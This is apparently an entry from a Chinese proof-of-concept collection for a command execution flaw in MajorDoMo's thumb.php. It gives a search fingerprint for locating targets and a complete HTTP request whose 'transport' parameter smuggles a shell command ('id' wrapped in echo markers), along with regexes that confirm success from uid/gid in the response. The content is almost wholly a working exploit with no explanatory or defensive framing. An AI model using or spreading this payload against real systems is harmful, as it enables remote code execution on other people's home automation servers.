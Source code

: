 ﻿# MajorDoMo thumb 命令执行漏洞

> 更新时间：2024-04-07

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：body="MajordomoSL"

> 验证脚本：HTTP

```
GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
Content-Type: application/x-www-form-urlencoded
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?uid)(?=.*?gid).*?$

> 上传文件定位：

> 验证文件来源：MajorDoMo thumb 命令执行漏洞.poc

